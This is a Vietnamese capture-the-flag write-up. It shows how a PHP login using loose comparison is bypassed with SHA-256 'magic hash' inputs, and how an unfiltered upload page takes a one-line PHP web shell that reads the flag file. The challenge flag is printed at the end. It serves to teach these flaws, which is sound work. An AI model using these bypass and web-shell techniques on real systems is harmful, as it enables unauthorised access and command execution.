 Inspect ta thấy source ở đây

![image](https://github.com/lucthienphong1120/CookieArena-CTF/assets/90561566/725cebb1-a2d2-4a43-aacd-57a1bdfdeb7d)

Dễ dàng nhận định ngay rằng không thể tận dụng SQLi được rồi.

```php
if(isset($_POST['submit'])){ 
    $usr = mysql_real_escape_string($_POST['username']); 
    $pas = hash('sha256', mysql_real_escape_string($_POST['password'])); 
    
    if($pas == "0"){ 
        $_SESSION['logged'] = TRUE; 
        header("Location: upload.php"); // Modify to go to the page you would like 
        exit; 
    }else{ 
        header("Location: login_page.php"); 
        exit; 
    } 
}else{    //If the form button wasn't submitted go to the index page, or login page 
    header("Location: login_page.php");     
    exit; 
}
```

> Đến đây có một kiến thức nữa ta cần biết, đó là 0e, đối với PHP, có nghĩa là 0 mũ, ví dụ như 0e3 chính là cách viết của 0 mũ 3.

Ta cũng nhận thấy rằng bước check password sử dụng dấu `==`, dấu hiệu của **Loose Comparision**.

Đây là lỗi **php juggling** khi php cố gắng ép kiểu dữ liệu.

| Hash | Number/String | Magic Hash |
| --- | --- | --- |
| SHA-256 | 34250003024812 | 0e46289032038065916139621039085883773413820991920706299695051332 |
| SHA-256 | TyNOQHUS | 0e66298694359207596086558843543959518835691168370379069085300385 |

Sau khi qua được vòng 1, tiếp tục đến trang /upload.php

```php
if(isset($_FILES['fileData'])){
    if($_FILES['fileData']['size'] > 1048576){
        $errors='File size must be excately 1 MB';
    }

    if(empty($errors)==true){
    $uploadedPath = "uploads/".rand().".".explode(".",$_FILES['fileData']['name'])[1];
    move_uploaded_file($_FILES['fileData']['tmp_name'],$uploadedPath);
    echo "File uploaded successfully\n";
    echo '<p><a href='. $uploadedPath .' target="_blank">File</a></p>';
    }else{
        echo $errors;
    }
}
```

Nhận thấy file upload lên không được filter extension, upload file php với payload sau:

```php
<?php system("cat /flag.txt");?>
```

![image](https://github.com/lucthienphong1120/CookieArena-CTF/assets/90561566/54dbce71-58ec-4af1-8962-0712c29cf2dd)

```CHH{PHP_m4g1c_tr1ck_0lD_but_g0lD_fdc8987c7c633ce8f9f5f2ae4599a9c8}```
